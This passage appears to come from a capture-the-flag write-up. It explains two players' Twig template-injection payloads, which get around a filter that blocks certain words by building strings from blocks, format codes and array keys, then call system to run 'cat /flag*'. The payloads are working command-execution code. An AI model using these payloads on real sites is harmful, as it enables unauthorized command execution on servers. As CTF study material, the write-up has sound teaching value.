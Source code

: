 ```php
{%block U%}cat %cflag*0%cystem{%endblock%}
{%set x=block(_charset|first)|split(0)%}
{{{0: x|first|format(47)}|find(x|last|format(115))}}
```

Jorian used the block feature, placing the desired string inside the blocks. After that, he calls `block(_charset | first)`, which returns `U`, allowing him to call the block he created earlier. He then splits the string into an array and assigns it to x. Using mapping and format, he bypasses the blacklist to call the command he wants. It's a really clever trick that avoids using dump.

**Fredd's payload:**

```php
{% set pct =1e+100 | json_encode | url_encode | slice(4,1) %}
{% set c = items | slice(2,1) | first | lower | first %}
{% set f =  pct ~ c %}
{% set cmd = (f~f~f~f~f~f~f~f~f~f) | format(99, 97, 116, 32, 47, 102, 108, 97, 103, 42) %}
{% set cmd_arr = {cmd} %}
{%set sstem_arr = {sy,s,t,e,m} %}
{%set sstem = sstem_arr|keys|join() %}
{{ cmd_arr|find(sstem) }}
```

Fredd first saves `%` to a variable using `json_encode` and `url_encode`. Then, he grabs `c` without using dump, simply slicing the items and finding the correct offset. After that, he combines both to make `%c`. Using format, he builds the string. Essentially, it works like this:

```
{% set cmd = (%c%c%c%c%c%c%c%c%c%c) | format(99, 97, 116, 32, 47, 102, 108, 97, 103, 42) %}
```

This creates the command `cat /flag*`. Then, he creates an array with key values. By using `keys` and `join`, he combines them into a string, and finally, he calls `find` to execute the command.
